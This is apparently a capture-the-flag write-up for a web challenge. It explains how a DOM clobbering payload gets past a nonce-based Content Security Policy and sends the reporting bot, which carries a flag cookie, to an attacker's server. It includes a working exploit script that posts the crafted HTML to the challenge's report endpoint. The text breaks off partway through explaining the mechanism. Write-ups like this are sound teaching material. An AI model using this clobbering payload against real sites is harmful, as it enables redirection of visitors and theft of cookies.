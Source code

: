 You can modify `{{VIEW}}` with query parameter `view`. So, it enables content injection. However, you cannot attack with XSS by CSP:

```javascript
app.use((req, res, next) => {
  const nonce = crypto.randomBytes(32).toString("base64");
  res.setHeader(
    "Content-Security-Policy",
    `default-src 'self'; script-src 'nonce-${nonce}'; base-uri 'none';`
  );
  req.nonce = nonce;
  next();
});
```

In this challenge, you can report a URL and then a bot accesses it with a flag cookie.

### Solution

This challenge is a DOM Clobbering puzzle. The goal is as follows:

- No errors occur.
- `window2 === window3` is true.
- `window1.location.origin` can be changed as you like. So, you can make the bot redirect to your server.

My intended DOM Clobbering:
```javascript
const SECCON_URL = /* the URL of the challenge server */;
const HOOK_URL = /* the URL of your server */;

const main = async () => {
  const view = `
      <form>
        <input id="form" name="form">
      </form>
      <a id="form" name="location" href="${HOOK_URL}"></a>
    `;
  const reportUrl = `http://web:3000/?window=form&view=${encodeURIComponent(view)}`;
  const body = new URLSearchParams();
  body.append("url", reportUrl);

  await fetch(`${SECCON_URL}/report`, {
    method: "POST",
    body,
  });
};
main();
```

The mechanism of this DOM Clobbering in Chrome is as follows.

Now, consider the following HTML and `?window=form`:
```html
<form>
  <input id="form">
</form>
<a id="form" name="location" href="https://example.com"></a>
```
